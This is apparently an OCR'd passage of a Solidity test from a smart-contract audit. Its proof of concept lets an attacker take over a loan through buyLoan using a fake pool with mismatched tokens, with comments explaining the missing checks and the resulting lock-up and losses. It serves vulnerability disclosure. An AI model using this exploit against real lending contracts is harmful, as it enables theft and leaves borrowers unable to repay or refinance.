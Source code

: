 ```solidity
            poolBalance: 1000 ether,
            maxLoanRatio: 2 ether,
            auctionLength: 1, // does not matter but lower is easier is to attack
            interestRate: 1, // does not matter but lower is and easier is to attack
            outstandingLoans: 0
        }));

        Pool memory fakePoolInfoBefore = lender.getPoolInfo(fakePoolId);

        // the attacker purchase the loan with the fake pool
        // the check `pools[poolId].interestRate > currentAuctionRate` is passed because our pool
        // there is no check about newPool.collateralToken == loan.collateralToken
        // there is no check about newPool.loanToken == loan.loanToken
        // After the purchase we will be in this situation
        // loan.lender = attacker
        // loan.interestRate = 1
        // fakePool.poolBalance = 1000 ether of fakeLoanToken - (loan.debt + lenderInterest + protocolInterest)
        // fakePool.outstandingLoans = 0 + (loan.debt + lenderInterest + protocolInterest)
        vm.prank(attacker);
        lender.buyLoan(loanId, fakePoolId);

        

        Pool memory fakePoolInfoAfter = lender.getPoolInfo(fakePoolId);
        Loan memory loanAfter = lender.getLoanInfo(loanId);

        // assert that the attacker was able to purchase the loan even if the pool's tokens are different compared to the loan's tokens
        assertTrue( fakePoolInfoAfter.loanToken != loanAfter.loanToken );
        assertTrue( fakePoolInfoAfter.collateralToken != loanAfter.collateralToken );

        // assert that the lender of the loan's lender is indeed the attacker
        assertEq( lender1, loanBefore.lender );
        assertEq( fakePoolInfoAfter.lender, loanAfter.lender );
        assertEq( fakePoolInfoAfter.lender, attacker );

        // attacker pool variables have been updated
        // The fakePool.poolBalance has been reduced by loan.debt + lenderInterest + protocolInterest
        assertEq(fakePoolInfoBefore.poolBalance, 1000 ether);
        assertLt(fakePoolInfoAfter.poolBalance, fakePoolInfoBefore.poolBalance);
        
        // fakePool.outstandingLoans has been increased by loan.debt + lenderInterest + protocolInterest
        assertEq(fakePoolInfoBefore.outstandingLoans, 0);
        assertGt(fakePoolInfoAfter.outstandingLoans, fakePoolInfoBefore.outstandingLoans);

        // At this point we know that the platform is already broken (we demostrated this with also another issue)
        // 1) The loan cannot be seized/bought unless the ATTACKER decides so. The attacker also will not call `giveLoan`
        // 2) The borrower cannot refinance the loan (changing the pool) because `refinance` function use a `poolId` generated by the `loan` info
        //    and this pool does not exist yet because poolIdFromLoan = (attacker, loanToken, collateralToken)
        //    while the pool created by the attackr is identified by the fakePoolId = (attacker, fakeLoanToken, fakeCollateralToken)
        //    because of this the `borrow` operation will fail for an underflow error when it tries to call `_updatePoolBalance`
        // 3) The borrower cannot repay the loan for the same reason of point (2)
        // 4) The protocol has already accumulated a loss because the loan has been purchased by a Pool that have NOT provided
```